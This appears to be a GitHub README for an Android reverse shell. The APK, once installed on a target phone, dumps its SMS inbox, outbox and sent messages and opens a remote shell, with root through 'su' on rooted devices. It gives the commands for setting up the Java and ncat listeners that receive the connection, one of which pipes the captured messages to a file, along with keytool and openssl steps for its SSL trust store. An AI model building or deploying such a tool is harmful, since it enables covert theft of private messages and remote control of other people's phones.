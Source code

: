 Android Reverse Shell
===================
Ian Cohee 
---------------------

A small, very basic reverse shell for the Android mobile operating system. The code can be compiled into an APK package, that must be installed
on the target device. The application will dump the SMS contents of the device inbox, outbox, and sent mail, then drop into the shell. The resulting shell will be unprivileged, unless the target phone is rooted, then the command "su" can be used. In that case, the user still needs to manually give the application permission to "su" to UID 0. 

Secured vs. Unsecured Shell
--------------------------
By default, the connection is made using SSL encryption, provided by the Listener's keystore. The Certificate for the listener's private key has been imported to the Android application's TrustStore, located in /res/raw/android.truststore.
If you want to create your own SSL keypair, you'll need to import the certificate manually.

Secure

    // UI cannot do networking stuff on its own, it needs
    // a separate thread. 
    new SecureConnectionThread().execute(host, port, "true");


Insecure

    // UI cannot do networking stuff on its own, it needs
    // a separate thread. 
    new SecureConnectionThread().execute(host, port, "false");

Listener (default: secured)
--------
I'm providing a Listener written in Java, that uses a KeyStore containing the private key that the Android Reverse Shell will accept. The BouncyCastle jar needs to be in the classpath of the listener, as well as two command-line arguments: 1) Path to the keystore (also supplied in this repository, under 'Crypto') and 2) the port to listen on (7777 by default).

	java -classpath /path/to/bcprov-jdk15on-146.jar Listener /path/to/javaserver.keystore 7777

Listener (unsecured)
--------
Still working on that (I'll have it when I get SSL or Symmetric key encryption added) in the mean time, a simple netcat-like listener works. I prefer to use Ncat, of the Nmap project. Since the application dumps SMS, I like to pipe them to `tee` to capture the results. The Listener will have logging, when I get to it. 

    ncat 192.168.2.3 7777 | tee server.out

Mini-tutorials
==============

Generating a KeyStore
-----------------------
    keytool -genkey -keystore server.keystore -alias android -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider

Getting Android to accpet the KeyStore (TrustStore)
---------------------------------------------------
Step 1: Export public key from KeyStore into a `.crt` file. In this case the key's alias is 'android' and the resulting certificate will be 'android.crt'

	keytool -export -keystore server.keystore -alias android -file android.crt -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider

Step 2: Import `.crt` in to the Android's TrustStore, under the alias 'android'.

	keytool -import -keystore android.truststore -alias android -file android.crt -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider	

Generating X509 Certificate (untested)
--------------------------------------
This file will contain the both the private key, and the certificate into a file called `cert.pem`. It might be possible to use `ncat` with this cert, but I had issues keeping the connection alive using `ncat` as the listener. The preferred method should be to use the AndroidRSListener, written in Java. 
    
    openssl req -newkey rsa:2048 -nodes -days 3650 -x509 -keyout cert.pem -out cert.pem

Then extract the everything between the `-----BEGIN_CERTIFICATE-----` and `-----END_CERTIFICATE-----` (inclusively) into a new file. Now This file needs to be added to the trust store that the application uses. 

Importing Certificate into TrustStore
-------------------------------------
    keytool -importcert -trustcacerts -keystore android.truststore -file cert.pem -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider 

Adding Bouncy Castle to java.security File, statically
------------------------------------------------------
Locate the correct security file, mine was a symlink in /usr

    locate java.security

Add an entry, where X is the next ordinal number to the java.security file
    
    security.provider.X=org.bouncycastle.jce.provider.BouncyCastleProvider
